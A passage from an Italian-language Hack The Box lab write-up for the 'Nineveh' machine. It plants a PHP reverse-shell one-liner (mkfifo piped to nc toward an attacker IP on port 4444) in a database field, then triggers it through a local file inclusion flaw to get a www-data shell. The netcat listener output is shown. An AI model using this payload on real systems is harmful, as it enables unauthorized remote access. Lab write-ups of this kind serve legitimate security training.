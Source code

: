 ![](../zzz_rev/attachments/ninevh10.png)

Ora non ci resta che sostituire il codice php nel parametro `field` del database con una reveshell in php 

```bash
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.16 4444 >/tmp/f"); ?>
```

Ci mettiamo in ascolto con nc 

```bash
┌──(root㉿kali)-[/home/kali/htb/nineveh]
└─# nc -lnvp 4444
listening on [any] 4444 ...
```

Utilizziamo la nostra LFI  per eseguire il codice php, ottenendo cosi la nostra shell

```bash
┌──(root㉿kali)-[/home/kali/htb/nineveh]
└─# nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.43] 37506
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
